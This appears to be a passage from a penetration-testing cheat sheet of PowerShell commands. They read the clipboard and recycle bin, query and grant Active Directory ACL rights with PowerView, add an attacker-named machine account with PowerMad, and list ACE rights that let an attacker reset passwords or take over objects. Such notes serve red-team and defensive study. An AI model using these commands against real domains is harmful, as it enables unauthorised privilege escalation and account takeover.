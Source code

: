 **List Security Patches**

```powershell
Get-Hotfix -description "Security update"
```

**Check Clipboard**

```powershell   
Get-Clipboard
```

**Check Recycle Bin**

```powershell
$shell = New-Object -com shell.application
$rb = $shell.Namespace(10)
$rb.Items()
```

### ***PowerView***

**Get ACL for Object**

```powershell
Get-ObjectAcl -Identity "<dn>" -ResolveGUIDs | ? {$_.SecurityIdentifier -match "<SID>"}`
```
**Grant Right to Domain Object**

```powershell
Add-DomainObjectAcl -Credential $cred -TargetIdentity "<machine_account>" -Rights <RIGHT>
```

**Get Machine Account SID**

```powershell
$ComputerSid = Get-DomainComputer ohno -Properties objectsid | Select -Expand objectsid
```

### ***PowerMad***

**Add Machine Account**

```powershell
New-MachineAccount -MachineAccount <attacker> -Password $(ConvertTo-SecureString '<password>' -AsPlainText -Force)
```

### **Permissions / Policy**

[**ADACLScan**](https://github.com/canix1/ADACLScanner/releases/download/7.9/ADACLScan.ps1)

**Interesting ACE/DACL**

```
GenericAll - full rights to the object (add users to a group or reset user's password)
GenericWrite - update object's attributes (i.e logon script)
WriteOwner - change object owner to attacker controlled user take over the object
WriteDACL - modify object's ACEs and give attacker full control right over the object
AllExtendedRights - ability to add user to a group or reset password
ForceChangePassword - ability to change user's password
Self (Self-Membership) - ability to add yourself to a group
```
